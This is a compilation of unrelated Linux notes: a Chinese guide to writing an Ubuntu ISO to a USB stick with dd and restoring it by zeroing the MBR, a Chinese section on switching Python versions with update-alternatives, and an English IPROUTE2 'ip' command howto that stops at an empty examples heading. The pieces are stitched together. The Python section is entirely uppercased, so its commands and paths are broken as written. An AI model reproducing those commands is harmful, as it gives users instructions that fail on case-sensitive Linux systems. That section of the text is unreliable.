# 写入过程是没有数据显示的，只要输出和输入路径没错，耐心等待即可，根据U盘读写速度以及iso文件大小，一般需要5~10分钟左右
qing@qingsword.com:~$ sudo dd if=~/ubuntu-16.04-desktop-amd64.iso of=/dev/sdc
因为是使用dd命令直接将将iso文件数据写入U盘，所以U盘不包含一个标准的分区表，从而导致系统无法正常的识别其大小，也无法正常使用，使用它安装系统后，如果不需要U盘安装盘了，可以使用下面的方法来恢复U盘。

恢复U盘示例：

#0.操作前请用sudo fdisk -l查看U盘分区号，请谨慎操作，不要误写硬盘分区，本例U盘分区号是/dev/sdc
#1.使用dd命令，将0写入U盘的前512字节（代表主引导记录中的引导代码和分区表）
# count=1，写入一次
# bs=512，写入的大小512（byte）
# if=/dev/zero，从系统0生成器读取0
# of=/dev/sdc，写入到U盘中
qing@qingsword.com:~$ sudo dd count=1 bs=512 if=/dev/zero of=/dev/sdc
#2.使用fdisk分区（最好先使用p查看一下还有没有分区，如果第一步操作无误，p将查看不到分区，如果还保留着原有分区，则删除现有分区，重新创建分区），例如只重新划分了一个分区sdc1
qing@qingsword.com:~$ sudo fdisk /dev/sdc
#查看现有分区，如果第一步成功，下面将看不到分区
命令(输入 m 获取帮助)： p
Disk /dev/sdc: 8019 MB
#创建新分区，一路默认回车
命令(输入 m 获取帮助)： n
#将分区更改成NTFS类型，以便Win系统也能识别
命令(输入 m 获取帮助)： t
Selected partition 1
Hex code (type L to list codes): 7
Changed system type of partition 1 to 7 (HPFS/NTFS/exFAT)
#保存
命令(输入 m 获取帮助)： w
#3.重新将U盘拔出插入，如果分区自动挂载，请先卸载，然后对该分区进行格式化，格式化成fat是为了让Windows也能识别（mkfs格式化ntfs非常慢，如果想要格式化成ntfs的，可以用mkfs.ntfs替换）
qing@qingsword.com:~$ sudo umount /dev/sdc1
qing@qingsword.com:~$ sudo mkfs.fat /dev/sdc1

*** PYTHON VERSION
当你安装 DEBIAN LINUX 时，安装过程有可能同时为你提供多个可用的 PYTHON 版本，因此系统中会存在多个 PYTHON 的可执行二进制文件,你可以按照以下方法使用 LS 命令来查看你的系统中都有那些 PYTHON 的二进制文件可供使用:
$ LS /USR/BIN/PYTHON*
/USR/BIN/PYTHON  /USR/BIN/PYTHON2  /USR/BIN/PYTHON2.7  /USR/BIN/PYTHON3  /USR/BIN/PYTHON3.4  /USR/BIN/PYTHON3.4M  /USR/BIN/PYTHON3M
然后执行如下命令查看默认的 PYTHON 版本信息:
$ PYTHON --VERSION
PYTHON 2.7.8
# UPDATE-ALTERNATIVES --LIST PYTHON
UPDATE-ALTERNATIVES: ERROR: NO ALTERNATIVES FOR PYTHON
如果出现以上所示的错误信息，则表示 PYTHON 的替代版本尚未被 UPDATE-ALTERNATIVES 命令识别。想解决这个问题，我们需要更新一下替代列表，将 PYTHON2.7 和 PYTHON3.4 放入其中。
# UPDATE-ALTERNATIVES --INSTALL /USR/BIN/PYTHON PYTHON /USR/BIN/PYTHON2.7 1
UPDATE-ALTERNATIVES: USING /USR/BIN/PYTHON2.7 TO PROVIDE /USR/BIN/PYTHON (PYTHON) IN AUTO MODE
# UPDATE-ALTERNATIVES --INSTALL /USR/BIN/PYTHON PYTHON /USR/BIN/PYTHON3.4 2
UPDATE-ALTERNATIVES: USING /USR/BIN/PYTHON3.4 TO PROVIDE /USR/BIN/PYTHON (PYTHON) IN AUTO MODE
- - INSTALL 选项使用了多个参数用于创建符号链接。最后一个参数指定了此选项的优先级，如果我们没有手动来设置替代选项，那么具有最高优先级的选项就会被选中。这个例子中，我们为 /USR/BIN/PYTHON3.4 设置的优先级为2，所以 UPDATE-ALTERNATIVES 命令会自动将它设置为默认 PYTHON 版本。
# PYTHON --VERSION
PYTHON 3.4.2
接下来，我们再次列出可用的 PYTHON 替代版本。
# UPDATE-ALTERNATIVES --LIST PYTHON
/USR/BIN/PYTHON2.7
/USR/BIN/PYTHON3.4
现在开始，我们就可以使用下方的命令随时在列出的 PYTHON 替代版本中任意切换了。
# UPDATE-ALTERNATIVES --CONFIG PYTHON
*** IPROUTE2 Utility Suite Howto
IPROUTE2 Utility Suite Howto
Main PolicyRouting.Org Website          PolicyRouting Book

9.0 Obtaining & Compiling IPROUTE2
9.1 IP Command Set
9.1.1 ip link - network device configuration
9.1.2 ip link set --- change device attributes.
9.2 ip address - protocol address management
9.2.1 ip address add --- add new protocol address.
9.2.2 ip address delete --- delete protocol address.
9.2.3 ip address show --- look at protocol addresses.
9.3 IP Interface Primary and Secondary Addressing:
9.3.1 ip address flush --- flush protocol addresses.
9.4 ip neighbour --- neighbour/arp table management.
9.4.1 ip neighbour add --- add new neighbour entry
9.4.2 ip neighbour change --- change existing entry
9.4.3 ip neighbour replace --- add new or change existing entry
9.4.4 ip neighbour delete --- delete neighbour entry.
9.4.5 ip neighbour show --- list neighbour entries.
9.4.6 ip neighbour flush --- flush neighbour entries.
9.5 ip route - routing table management.
9.5.1 ip route add --- add new route
9.5.2 ip route change --- change route
9.5.3 ip route replace --- change route or add new one.
9.5.4 ip route delete
9.5.5 ip route show
9.5.6 ip route flush - alows group deletion of routes
9.5.7 ip route get - obtain route pathing
9.6 ip rule --- routing policy database management.
9.6.1 ip rule add --- insert new rule
9.6.2 ip rule show - list policy rules
9.7 ip tunnel - ip tunnelling configuration
9.7.1 ip tunnel add - creating tunnels
9.7.2 ip tunnel show - list tunnel attributes
9.8 ip monitor and rtmon --- route state monitoring
9.9 rtacct - route realms and policy propagation
9.10 IP Utility Summary
9.11 IP Usage in Scripting
9.12 IPUP & IPDOWN
9.13 IPNetwork Init Script
9.14 ifcfg script
9.15 arping utility
9.16 Policy Routing - Multiple Route Tables Example
IPROUTE2 Utility Suite Documentation
This docvumentation covers the ip utility from IPROUTE2. This utility is written by Alexey N. Kuznetsov who also wrote the IPv6 and IPv4 routing code for Linux 2.2. This is the utility he uses for manipulating the Linux 2.2-2.6 network interface code.

We will begin by explaining where to obtain the utility collection and how to compile it. After it is compiled we will cover the utilities created and in what location on the system they should reside. This includes all of the utilities in the IPROUTE2 suite.

Then we will begin extensive coverage of the ip command with documentation of usage and examples. This section draws heavily upon Alexey's own documentation of the command with additional discussion and examples. Some of the usages of the command, such as multicast and IPv6 specific usage will be deferred at this point but we will be extending this document with that coverage as time goes on. While this is often what would be found in man pages, no man pages currently exist for the ip command and Alexey's own current documentation is only available in Latex format. With Alexey's permission we have edited and expanded the Latex documentation into the sections found here. If there are errors in these sections they probably belong to Matthew's translation and should be addressed to him first.

To tie together what we have learned about the ip utility we will list a few working examples of the ip utility. These include several longer script examples from Alexey along with some daily usage features of the utility. We then in the Table of Contents list a set of examples from real life that are collected here.

Obtaining & Compiling IPROUTE2

The ip utility is just one of the utilities in the IPROUTE2 utility package from Alexey. The primary FTP site was located in Russia at ftp://ftp.inr.ac.ru/ip-routing/ but is no longer running. The most complete mirror is located at http://www.linuxgrill.com/anonymous/iproute2/ with the newest OSDL source code located within the http://www.linuxgrill.com/anonymous/iproute2/NEW-OSDL/ directory. We will assume that you have obtained the latest package usually called iproute2-current symlinked to the latest dated version. The version we primarily cover here is the 1999-06-30 version of IPROUTE2.

Once the utility has been obtained you need to unpack it into whatever directory you use for compiling source code. The default is to use /usr/src. When you have the package untarred you can enter the directory and just type make. You must have the kernel source code that was used to compile your current running kernel located in /usr/src/linux. You do want to compile a version of your own unless you are using a distribution that includes the utility and you have not remade your kernel. Since one of the best tuning and security functions you can perform on your system is to obtain and compile your own specific kernel you will want to compile this utility also as it is the single most important utility in the IP configuration of your system.

After you have typed make the utility suite will compile. Then we have to install the various parts. There is no install target in the makefile. All of the utilities in this package should be installed into the /sbin directory. This is so that they are available even before your /usr directory is mounted. There is additionally a /etc/iproute2 directory in the package that contains sample definition files. If you do not have a /etc/iproute2/ directory on your system then create one and copy the contents of the package directory to the new directory. If an /etc/iproute2/ directory exists and you do not know what it is being used for then you will want to find out if the files in that directory have some meaning to the system you are running. If not then replacing them with the files in the package directory will not hurt.

In a nutshell we want to perform the following steps:

1.	Compile the utilities by typing make

2.	Check /etc/iproute2/ with ls -l /etc/iproute2

3.	If needed create /etc/iproute2/ with

mkdir /etc/iproute2/

4.	Populate it with cp ./etc/iproute2/* /etc/iproute2/

5.	Change into the ip directory with cd ip

6.	cp ifcfg ip routef routel rtacct rtmon rtpr /sbin

7.	Change into tc directory with cd ../tc

8.	cp tc /sbin

This will compile the utility and copy the configuration files and the executables into the appropriate directories. We should now be able to execute the ip utility from anywhere on the system by typing ip. To test and see if this worked type ip addr and you should get a list of the interfaces and addresses on your system.

IP Command Set

In this section we will present a comprehensive description of the ip utility from Alexey Kuznetsov's IPROUTE2 package. We will start by going through most of the ip command in extreme detail. We will cover the link, addr, route, rule, neigh, tunnel, and monitor parts of the ip command. The multicast sections will be covered in a "to be added later" section on IPv6 and multicasting.

We will first go through all of the command syntax of the ip command. This is due to the situation, current as of February 2000, that there are no man pages for ip and the documentation is only available in Latex format. If you have read the ip-cref.tex document that Alexey has written as included in 1999-06-30 distribution of IPROUTE2 then feel free to just skim through most of this section. Matthew has extended the discussion and examples somewhat but the core is taken from ip-cref.tex. If you have any questions or comments about the examples or statements in this section please direct them to Matthew. Note also that by the time you read this the ip command may have changed for 2.3/2.4. As it changes we will attempt to keep this document current.

IP Global Command Syntax

The generic form of the ip command is

ip [ OPTIONS ] OBJECT [ COMMAND [ ARGUMENTS ]]

OPTIONS:

OPTIONS is a multivalued set of modifiers that affect the general behaviour and output of the ip utility. All options begin with the "-" character and may be used both in long and abbreviated form. Currently the following options are available

-V, -Version --- print the version of the ip utility and exit.

-s, -stats, -statistics --- output more information.

This option may be repeated to increase the verbosity level of the output. As a rule the additional information is device or function statistics or values. In many cases the values output should be considered in the same sense as output from the /proc/ directory where the name of the value is not directly related to the value itself. See later when we run this option with different network device drivers.

-f, -family {inet, inet6, link} --- enforce which protocol family to use.

If this option is not present, the protocol family output to use is guessed from the other command line arguments. If the rest of command line does not provide sufficient information to guess a protocol family, the ip command falls back to a default family of inet in the case of network protocols or to any. Link is a special family identifier meaning that no networking protocol is involved. There are several shortcuts for this option and they are as listed here:

-4 --- shortcut for -family inet.

-6 --- shortcut for -family inet6.

-0 --- shortcut for -family link.

-o, -oneline --- format the output records as single lines by replacing any line feeds with the "\" character.

This option is to provide a convenient method for sending the command output through a pipe. IE: When you want to count the number of output records with wc or you want to to grep through the output. As of 1999-06-30 the IPROUTE2 utility package includes the trivial script rtpr to convert the output back to the original readable form.

-r, -resolve --- use system name resolution to output DNS names

Do not use this option if you are reporting bugs with the ip utility or querying for usage advice. ip itself never uses DNS to resolve names to addresses. This option exists for the administrators convenience only.

OBJECT:

OBJECT is the object type on which you wish to operate on or obtain information about. The object types understood by the current ip utility are link, address, neighbor, route, rule, maddress, mroute, and tunnel.

link --- physical or logical network device.

address --- protocol (IPv4 or IPv6) address on a device.

neighbour --- ARP or NDISC cache entry.

route --- routing table entry.

rule --- rule in routing policy database.

maddress --- multicast address.

mroute --- multicast routing cache entry.

tunnel --- tunnel over IP.

The names of all of the objects may be written in full or abbreviated form. IE: address may be abbreviated as addr or just a. However if you use these commands within scripts you should make it a habit to always use the full specification of the action. Using the abbreviation makes it easy to use on the command line but hard to understand the logic within scripts. Since you may not be the only person who ever has to deal with your scripts then you should strive to make them as complete as possible.

COMMAND:

COMMAND specifies the action to perform on the object. The set of possible actions depends on the object type. Typically it is possible to add, delete, and show (list) the object(s), but some objects will not allow all of these operations and many have additional actions and commands. Note that the command syntax help which is available for all objects prints out the full list of available commands and argument syntax conventions. If no command is given a default command is assumed. The default command is usually show (list) but if the objects of the class cannot be listed then the default is to print out the command syntax help.

ARGUMENTS:

ARGUMENTS is the list of command options specific to the command. The arguments depend on the command and the object. There are two types of arguments that can be issued:

--- flags - which are abbreviated with a single keyword

--- parameters - consisting of a keyword followed by a value

Each command has a default parameter which is used if the arguments are omitted. IE: The dev parameter is the default for the ip link command thus ip link list eth0 is equivalent to ip link list dev eth0. Within all the command descriptions below we distinguish default parameters with the marker (default).

As we mentioned above for the names of objects, all keywords may be abbreviated with the first or first few unique letters. These shortcuts are convenient when ip is used interactively, but they are not recommended for use in scripts and please do not use them when reporting bugs or asking for help. Officially allowed abbreviations are listed along with the first mention of the command.

Error Conditions

The ip command most commonly fails for the following reasons:

*	Wrong command line syntax

This is often due to using an unknown keyword, a wrongly formatted IP address, wrong keyword argument for the command, etc. In this case the ip command exits without performing any actions and prints out an error message containing information about the reason for failure. In some cases it prints out the command syntax help.

*	The arguments did not pass self-consistency verification

*	ip failed to compile a kernel request from the arguments due to insufficient user provided information

*	Kernel returned an error to a syscall. In this case ip prints the error message as it was output from perror(3), prefixed with a comment and the syscall identifier.

*	Kernel returned an error to a RTNETLINK request. In this case ip prints the error message as it was output from perror(3) prefixed with "RTNETLINK answers".

Note that all ip command operations are atomic. This means that if the ip command fails it does not change anything in the system. One harmful exception is the ip link command which may change only part of the device parameters given on the command line. We will mention this again in the section on ip link usage and reccomend that all ip link actions be performed individually. This is actually a preferred use for the ip command in general. If you need to perform many repetitions of the command use a script loop or a script as then any generated error messages can be associated with the appropriate ip command action.

It is difficult to list all possible error messages especially the syntax errors. As a rule their meaning should be clear from the context of the command that was issued. For example if we issue the command ip link sub eth0 with the obvious misspelling of set then we get the error message "Command "sub" is unknown, try "ip link help"" which should prompt us to check our command syntax.

In using the ip command there are several facilities that need to be present in order for the command to perform its functions. The ip command talks to the kernel through the NETLINK interface. This is turned on by the NETLINK options which are enabled in the kernel compile. If the ip command does not work or you get an error message then you may not have the needed functions defined or your kernel is not the one you compiled. The most common mistakes are:

*	NETLINK is not configured in the kernel. The error message is

"Cannot open netlink socket Invalid value"

*	RTNETLINK is not configured in the kernel.

In this case one of the following messages may be printed depending on the actual command issued:

"Cannot talk to rtnetlink Connection refused"

"Cannot send dump request Connection refused"

ip link - network device configuration

A link refers a network device. The ip link object and the corresponding command set allows viewing and manipulating the state of network devices. The commands for the link object are just two, set and show.

ip link set --- change device attributes.

Abbreviations: set, s

Warning

You can request multiple parameter changes with ip link. If you request multiple parameter changes and any ONE change fails then ip aborts immediately after the failure thus the parameter changes previous to the failure have completed and are not backed out on abort. This is the only case where using the ip command can leave your system in an unpredictable state. The solution is to avoid changing multiple parameters with one ip link set call. Use as many individual ip link set commands as necessary to perform the actions you desire.

Arguments:

*	dev NAME (default) --- NAME specifies the network device to operate on

*	up / down --- change the state of the device to UP or to DOWN

*	arp on / arp off --- change NOARP flag status on the device

Note that this operation is not allowed if the device is already in the UP state. Since neither the ip utility nor the kernel check for this condition, you can get very unpredictable results changing the flag while the device is running. It is better to set the device down then issue this command.

*	multicast on / multicast off --- change MULTICAST flag on the device.

*	dynamic on / dynamic off --- change DYNAMIC flag on the device.

*	name NAME --- change name of the device.

Note that this operation is not recommended if the device is running or has some addresses already configured. You can break your systems security and screw up other networking daemons and programs by changing the device name while the device is running or has addressing assigned.

*	txqueuelen NUMBER / txqlen NUMBER --- change transmit queue length of the device

*	mtu NUMBER --- change MTU of the device.

*	address LLADDRESS --- change station address of the interface.

*	broadcast LLADDRESS, brd LLADDRESS or peer LLADDRESS --- change link layer broadcast address or peer address in the case of a POINTOPOINT interface

Note that for most physical network devices (Ethernet, TokenRing, etc) changing the link layer broadcast address will break networking. Do not use this argument if you do not understand what this operation really does.

*	The ip command does not allow changing the PROMISC or ALLMULTI flags as these flags are considered obsolete and should not be changed administratively.

Examples:

ip link set dummy address 000000000001 --- change station address of the interface dummy.

ip link set dummy up --- start the interface dummy.

ip link show --- look at device attributes.

Abbreviations: show, list, lst, sh, ls, l

Arguments:

*	dev NAME (default) --- NAME specifies network device to show.

If this argument is omitted, the command lists all the devices.

*	up --- display only running interfaces.

Output:

kuznet@alisa~:$ ip link ls dummy

2: dummy: <BROADCAST,NOARP> mtu 1500 qdisc noop

link/ether 000000000000 brd ffffffffffff

The number followed by a colon is the interface index or ifindex. This number uniquely identifies the interface. If you look at the output from cat /proc/net/dev you will see that the network devices are listed in the same order as the numbering you see here. After the ifindex is the interface name (eth0, sit0 etc.). The interface name is also unique at any given moment, however interfaces may disappear from the list, such as when the corresponding driver module is unloaded, and another interface with the same name will be created later. Additionally with the ip link set DEVICE name NEWNAME command the system administrator may change the devices name.

The interface name may also have another name or the keyword NONE appended after an "@" sign. This signifies that this device is bound to another device in a master/slave device relationship. Thus packets sent through this device are encapsulated and forwarded on via the master device. If the name is NONE, then the master device is unknown.

After the interface name we see the interface mtu (maximal transfer unit) which determines maximal size of data packet which can be sent as a single packet over this interface.

The qdisc (queuing discipline) shows which queuing algorithm is used on the interface. In particular the keyword noqueue means that this interface does not queue anything and the keyword noop indicates that the interface is in blackhole mode in which all of the packets sent to it are immediately discarded.

The qlen indicates the default transmit queue length of the device measured in packets.

Following all of this inormation is a section within angle brackets. Within the angle brackets is where the interface flags are summarized. The most applicable flags are as follows:

UP --- this device is turned on, ready to accept packets for transmission onto the network and it may receive packets from other nodes on the network.

LOOPBACK --- the interface does not communicate to another hosts. All the packets which are sent through it will be returned back to the sender and nothing but bounced back packets can be received.

BROADCAST --- this device has the facility to send packets to all other hosts sharing the same physical link. Example: Ethernet

POINTOPOINT --- the network has only two ends with two nodes attached. All the packets sent to the link will reach the peer link and all packets received are origined by the peer.

If neither LOOPBACK nor BROADCAST nor POINTOPOINT are set, the interface is assumed to be a NBMA (Non-Broadcast Multi-Access) link. NBMA is the most generic type of device and also the most complicated type of device because a host attached to a NBMA link cannot send information to any other host without additional manually provided configuration information.

MULTICAST --- an advisory flag noting the interface is aware of multicasting. Broadcasting is particular case of multicasting where the multicast group contains all of the nodes on the link as members. Note that software must NOT interpret the absence of this flag as the incapability of the interface to multicast. Any POINTOPOINT and BROADCAST link is multicasting by definition because we have direct access to all the link neighbours and thus to any particular group of them. The use of high bandwidth multicast transfers is not recommended on broadcast-only networks due to the high expenses associated with the transmission, but such use is not strictly prohibited.

PROMISC --- the device listens and feeds to the kernel all of the traffic on the link. This includes every packet on the network that passes our transceiver. Usually this mode exists only on broadcast links and is used by bridges and network monitoring devices.

ALLMULTI --- the device receives all multicast packets wandering on the link. This mode is used by multicast routers.

NOARP --- this flag is different from the other flags. It has no invariant value and its interpretation depends on network protocols involved. As a rule it indicates that the device does not need any address resolution and that the software or hardware knows how to deliver packets without any help from the protocol stacks.

DYNAMIC --- is an advisory flag marking this interface as dynamically created and destroyed.

SLAVE --- this interface is bonded to other interfaces in order to share link capacities.

Other flags do exist and can be seen in within the angle brackets but they are either obsolete (NOTRAILERS), not implemented (DEBUG), or specific to certain devices (MASTER, AUTOMEDIA and PORTSEL). We will not discuss them here. Additionally the values of the PROMISC and ALLMULTI flags as shown by the ifconfig utility and by the ip utility are different. The ip link list command provides the current true device state, whereas ifconfig shows the flag state which was set through ifconfig itself.

The second line of the output from the example contains information about the link layer addresses associated with the device. The first word (ether, sit) defines the interface hardware type which then determines the format and semantics of the addresses and thus logically is part of the address itself. The default format of station and broadcast addresses (or peer addresses for pointopoint links) is a sequence of hexadecimal bytes separated by colons. However some link types may instead have their own natural address formats which are used in the presentation. IE: The addresses of IP tunnels are printed as dotted-quad IP addresses. While NBMA links have no well-defined broadcast or peer address, this field may contain useful information such as the address of a broadcast relay or the address of an ARP server. Multicast addresses are not shown by this command, see ip maddr list output.

When given the option -statistics ip will print the interface statistics as additional information in the listing. Note that you can give this option multiple times with each repetition increasing the verbosity of output.

kuznet@alisa~ $ ip -s link ls eth0

3: eth0: <BROADCAST,MULTICAST,UP> mtu 1500 qdisc cbq qlen 100

link/ether 00a0cc661878 brd ffffffffffff

RX bytes packets errors dropped overrun mcast

2449949362 2786187 0 0 0 0

TX bytes packets errors dropped carrier collsns

178558497 1783945 332 0 332 35172

The RX and TX lines summarize receiver and transmitter statistics. The information output breaks down into:

bytes --- total number of bytes received or transmitted on the interface.

This number wraps when the maximal length of the natural data type on the architecture is exceeded. In order to provide correct long term data from this output these statistics should be continuously monitored. Continuous monitoring of this data requires a user level daemon to sample the output periodically.

packets --- total number of packets received or transmitted on the interface.

errors --- total number of receiver or transmitter errors.

dropped --- total number of packets dropped because of lack of resources.

overrun --- total number of receiver overruns resulting in packet drops. As a rule if the interface is overrun you have a serious problem either within the kernel or your machine is too slow to handle the speed of this interface.

mcast --- total number of received multicast packets. This option is supported only on certain devices.

carrier --- total number of link media failures such as those due to lost carrier.

collsns --- total number of collision events on Ethernet-like media. This number has different interpretations on other link types.

compressed --- total number of compressed packets. It is available only for links using VJ header compression.

When you issue the -statistics option more than once you get additional output depending on the statistics supported by the device itself as in the following example with Ethernet:

kuznet@alisa~ $ ip -s -s link ls eth0

3: eth0: <BROADCAST,MULTICAST,UP> mtu 1500 qdisc cbq qlen 100

link/ether 00a0cc661878 brd ffffffffffff

RX bytes packets errors dropped overrun mcast

2449949362 2786187 0 0 0 0

RX errors length crc frame fifo missed

0 0 0 0 0

TX bytes packets errors dropped carrier collsns

178558497 1783945 332 0 332 35172

TX errors aborted fifo window heartbeat

0 0 0 332

In this case the error names are pure Ethernetisms. Other devices may have non-zero fields in these positions but the headers are generated independantly of the device responses. It is up to the device driver to send more appropriate error messages to the system logging facility such as is done by the TokenRing driver.

ip address - protocol address management

Abbreviations: address, addr, a

Arguments: add, delete, flush, show (list)

The address refers to a protocol (IP or IPv6) address attached to a network device. Each device must have at least one address in order to use the corresponding protocol. It is possible to have several different addresses attached to one device. These addresses are not discriminated within the protocol structure so that the term alias is not quite appropriate for such multiple addresses and we will not refer to this situation in those terms.

The ip addr command allows you to look at the addresses and their properties on an interface. You can add new addresses and delete old ones without regard to any ordering. Later on we will discuss the concept of primary and secondary addresses as applied to Linux.

ip address add --- add new protocol address.

Abbreviations: add, a

Arguments:

dev NAME --- name of the device to which we add the address

local ADDRESS (default) --- address of the interface.

The format of the address depends on the protocol. IPv4 uses dotted quad and IPv6 uses a sequence of hexadecimal halfwords separated by colons. The ADDRESS may be followed by a slash and a decimal number, which encodes network prefix (netmask) length in CIDR notation. If no CIDR netmask notation is specified then the command assumes a host (/32 mask) address is specified.

peer ADDRESS--- address of remote endpoint for pointopoint interfaces. Again, the ADDRESS may be followed by a slash and decimal number, encoding the network prefix length. If a peer address is specified then the local address cannot have a network prefix length as the network prefix is associated with the peer rather than with the local address. In other words, netmasks can only be assigned to peer addresses when specifying both peer and local addresses.

broadcast ADDRESS --- broadcast address on the interface.

The special symbols "+" and "-" can be used instead of specifying the broadcast address. In this case the broadcast address is derived by either setting all of the interface host bits to one (+) or by setting all of the interface host bits to zero (-). In most modern implementations of IPv4 networking you will want to use the (+) setting. See the ipup init script in Chapter 15. Unlike ifconfig, the ip command does not set a broadcast address unless explicitly requested.

label NAME --- Each address may be tagged with a label string.

In order to preserve compatibility with Linux-2.0 net aliases, this string must coincide with the name of the device or must be prefixed with device name followed by a colon. (eth0:duh)

scope SCOPE_VALUE --- scope of the area within which this address is valid.

The available scopes are listed in the file

/etc/iproute2/rt_scopes. The predefined scope values are:

global --- the address is globally valid.

site --- (IPv6 only) address is site local, valid only inside this site.

link --- the address is link local, valid only on this device.

host --- the address is valid only inside this host.

Examples:

ip addr add 127.0.0.1/8 dev lo brd + scope host

--- adds the usual loopback address to loopback device. The device must be enabled before this address will show up.

ip addr add 10.0.0.1/24 brd + dev eth0

--- adds address 10.0.0.1 with prefix length 24 (netmask 255.255.255.0) and standard broadcast to interface eth0

ip address delete --- delete protocol address.

Abbreviations: delete, del, d

Arguments:

The arguments coincide with arguments of ip addr add. The device name is a required argument, the rest are optional. If no arguments are given, the first address listed is deleted.

Examples:

ip addr del 127.0.0.1/8 dev lo

--- deletes the loopback address from loopback device.

Alexey states:

"It would be better not to try to repeat this experiment 8-}"

Delete all IPv4 addresses on interface eth0:

while ip -f inet addr del dev eth0; do

nothing

done

Another method to disable IP on an interface using ip addr flush is discussed later.

ip address show --- look at protocol addresses.

Abbreviations: show, list, lst, sh, ls, l

Arguments:

dev NAME (default) --- name of the device.

scope SCOPE_VAL --- list only addresses with this scope.

to PREFIX --- list only addresses matching this prefix.

label PATTERN --- list only addresses with labels matching the PATTERN.

PATTERN is the usual shell regexp style pattern.

dynamic / permanent --- (IPv6 only) list only addresses installed due to stateless address configuration or list only the permanent (not dynamic) addresses.

tentative --- (IPv6 only) list only addresses, which did not pass duplicate address detection.

deprecated --- (IPv6 only) list only deprecated addresses.

primary / secondary --- list only primary (or secondary) addresses.

Example:

kuznet@alisa~ $ ip addr ls eth0

3: eth0: <BROADCAST,MULTICAST,UP> mtu 1500 qdisc cbq qlen 100

link/ether 00a0cc661878 brd ffffffffffff

inet 193.233.7.90/24 brd 193.233.7.255 scope global eth0

inet6 3ffe2400012a0ccfffe661878/64 scope global dynamic

valid_lft forever preferred_lft 604746sec

inet6 fe802a0ccfffe661878/10 scope link

The first two lines coincide with the output of ip link list as it is only natural to interpret link layer addresses as being addresses of the protocol family AF_PACKET. The list of IPv4 and IPv6 addresses follows accompanied by additional attributes such as scope value, flags, and address label. Address flags are set by the kernel and cannot be changed administratively. Currently the following flags are defined:

secondary --- this address is not used when selecting the default source address for outgoing packets. An IP address becomes secondary if another address within the same prefix (network) already exists. The first address within the prefix is primary and is the tag address for the group of all the secondary addresses. When the primary address is deleted all of the secondaries are purged too. See the examples for the actual functionality of these steps.

dynamic --- the address was created due to stateless autoconfiguration. In this case the output also contains information on the times for which the address remains valid. After the preferred lifetime (preferred_lft) expires the address is moved to the deprecated state and after the valid lifetime (valid_lft) expires the address is finally invalidated.

deprecated --- the address is deprecated. It is still valid but cannot be used by newly created connections. See dynamic above.

tentative --- the address is not used because duplicate address detection is still not complete or has failed.

IP Interface Primary and Secondary Addressing:

To explain the actual relationship between primary and secondary addresses we will run the following experiment.

ip addr add 10.1.1.1/24 dev dummy

ip addr add 10.1.1.2/24 dev dummy

Now look at the output:

ip addr list dummy


3: dummy: <BROADCAST,MULTICAST,NOARP> mtu 1500 qdisc noop

link/ether 00:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff

inet 10.1.1.1/24 scope global dummy

inet 10.1.1.2/24 scope global secondary dummy

Now add in some addresses still in that network but add them as host addresses:

ip addr add 10.1.1.3/32 dev dummy

ip addr add 10.1.1.4/25 dev dummy

And run our list command:

ip addr list dummy


3: dummy: <BROADCAST,MULTICAST,NOARP> mtu 1500 qdisc noop

link/ether 00:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff

inet 10.1.1.1/24 scope global dummy

inet 10.1.1.3/32 scope global dummy

inet 10.1.1.4/25 scope global dummy

inet 10.1.1.2/24 scope global secondary dummy

And finally delete the primary address

ip addr del 10.1.1.1/24 dev dummy

Run the list command:

ip addr list dummmy


3: dummy: <BROADCAST,MULTICAST,NOARP> mtu 1500 qdisc noop

link/ether 00:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff

inet 10.1.1.3/32 scope global dummy

inet 10.1.1.4/25 scope global dummy

Note that the most important part of what we said above about secondary and primary addresses is the prefix (netmask) length. Even though technically you can consider the address 10.1.1.3 to belong within the network prefix 10.1.1.0/24, the actual prefix associated with the address is /32 so this address is treated independantly of the initial primary address. If you are still uncertain about why sit down and calculate out the networks and masks of the example above.

What we are showing here is that unlike the behaviour in the 2.0 series kernels under the horrid eth0:xx style aliasing is that multiple addresses on an interface are not neccesarily related. So if you want to (and we will show an example in the howto section) you can enter in all of your ip addresses without network masks and treat them completely independantly.

ip address flush --- flush protocol addresses.

Abbreviations: flush, f

Arguments:

This commands flushes protocol addresses selected by some criteria. This command has the same arguments as show. The major difference is that this command will not run if no arguments are given. Otherwise you could delete all of your addresses by mistake. This command (and the other flush commands described below) are very dangerous. If you make a mistake the command does not ask or forgive but really will creully purge all of your addresses. Be warned!

With the option -statistics the command becomes verbose and prints out the number of deleted addresses and number of processing rounds made in order to flush the address list. If the -statistics option is given twice then ip addr flush also dumps all of the deleted addresses in the full format as described in the ip addr list section.

Examples:

Delete all the addresses from private network 10.0.0.0/8:

netadm@amber~ # ip -stat -stat addr flush to 10/8

2 dummy inet 10.7.7.7/16 brd 10.7.255.255 scope global dummy

3 eth0 inet 10.10.7.7/16 brd 10.10.255.255 scope global eth0

4 eth1 inet 10.8.7.7/16 brd 10.8.255.255 scope global eth1

***Round 1, deleting 3 addresses***

***Flush is complete after 1 round***



Another instructive example is deleting all IPv4 addresses from all Ethernet interfaces in the system:

netadm@amber~ # ip -4 addr flush label "eth*"

And the last example shows how to flush all the IPv6 addresses acquired by the host from stateless address autoconfiguration after enabling forwarding or disabling autoconfiguration.

netadm@amber~ # ip -6 addr flush dynamic

ip neighbour --- neighbour/arp table management.

Abbreviations: neighbour, neighbor, neigh, n

The neighbour table objects establish bindings between protocol addresses and link layer addresses for hosts sharing the same physical link. Neighbour object entries are organized into tables. The IPv4 neighbour object table is known under another name as the ARP table. These commands allow you to look at the neighbour table bindings and their properties, to add new neighbour table entries, and to delete old ones.

Arguments:

add, change, replace, delete, flush and show (list)

ip neighbour add --- add new neighbour entry

ip neighbour change --- change existing entry

ip neighbour replace --- add new or change existing entry

add, a; change, chg; replace, repl

These commands create new neighbour records or update existing ones.

to ADDRESS (default) --- protocol address of the neighbour. It is either an IPv4 or IPv6 address.

dev NAME --- the interface to which this neighbour is attached

lladdr LLADDRESS --- link layer address of the neighbour. LLADDRESS can be null.

nud NUD_STATE --- state of the neighbour entry. nud is an abbreviation for "Neighbour Unreachability Detection". This state can take one of the following values:



permanent --- the neighbour entry is valid forever and can be removed only administratively.

noarp --- the neighbour entry is valid, no attempts to validate this entry will be made but it can be removed when its lifetime expires.

reachable --- the neighbour entry is valid until reachability timeout expires.

stale --- the neighbour entry is valid, but suspicious. This option to ip neighbour does not change the neighbour state if the entry was valid and the address has not been changed by this command.

Examples:

